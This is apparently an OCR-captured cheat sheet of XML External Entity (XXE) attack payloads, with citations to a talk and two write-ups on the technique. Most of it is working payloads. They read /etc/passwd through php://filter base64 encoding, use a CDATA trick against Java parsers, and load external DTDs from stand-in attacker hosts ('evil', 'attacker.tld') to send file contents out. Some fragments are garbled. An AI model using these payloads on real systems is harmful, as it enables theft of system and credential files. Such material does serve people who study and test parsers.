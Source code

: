 ```xml
]>
```
- test.xml:
```xml
<!ENTITY % payload SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % intern "<!ENTITY &#37; trick SYSTEM 'file://WOOT%payload;WOOT'>">
```
- if no outbound:
```xml
<!DOCTYPE doc [
 <!ENTITY % evil SYSTEM "php://filter/convert.base64-decode/resource=data:,`base64(text.xml)`">
 %evil;
 %intern;
 %trick;
]>
```
###### "What you didn't know about XML External Entities Attacks" by Timothy Morgan (http://www.youtube.com/watch?v=eHSNT8vWLfc)
###### paper final: http://www.vsecurity.com/download/papers/XMLDTDEntityAttacks.pdf
## CDATA trick (works on java impl)

```xml
<!DOCTYPE meh [
  <!ENTITY % file SYSTEM "file:///has/broken/xml">
  <!ENTITY % start "<![CDATA[">
  <!ENTITY % end "]]>">
  <!ENTITY % dtd SYSTEM "http://evil/join.dtd">
%dtd;
]]>
<lastname>&all;</lastname>
join.dtd contains:
<!ENTITY all "%start;%file;%end;">
```
##### using file-not-found trick to solve exfiltration restrictions ("one line only" and XML metachars), but need outbound to attacker site (http://www.christian-schneider.net/GenericXxeDetection.html)
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [  
  <!ENTITY % one SYSTEM "http://attacker.tld/dtd-part" >
  %one;
  %two;
  %four;
]>

dtd-part:
<!ENTITY % three SYSTEM "file:///etc/passwd">
<!ENTITY % two "<!ENTITY % four SYSTEM 'file:///"%three;"'>">
```
